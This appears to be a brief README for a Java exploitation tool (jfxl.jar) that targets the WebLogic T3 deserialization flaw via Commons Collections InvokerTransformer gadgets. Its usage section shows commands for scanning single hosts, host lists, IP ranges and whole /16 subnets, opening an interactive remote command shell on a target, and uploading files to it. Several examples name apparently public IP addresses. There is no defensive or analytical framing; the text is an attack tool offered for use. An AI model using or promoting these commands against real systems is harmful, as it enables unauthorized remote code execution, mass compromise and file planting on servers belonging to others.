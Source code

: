 # weblogic_java_des
weblogic T3 collections java InvokerTransformer Transformer  InvokerTransformer weblogic.jndi.WLInitialContextFactory

# jdk
jdk 1.6+
# how use?
<code>
* 0 、ips ....
java  -jar ./bin/jfxl.jar 192.168.10.90:80

java  -jar ./bin/jfxl.jar 192.168.10.90:80;192.168.10.190:7001;192.168.10.33:7001

* 1、cmd shell Interactive -i
java -jar jfxl.jar 119.17.248.52:8080 -i
quit or exit out the shell
[file upload 
put localFileName remouteFileName
*  2、java -jar jfxl.jar 119.177.248.52-155:8080
*  3、java -jar jfxl.jar 119.177.248.52/16:8080
</code>
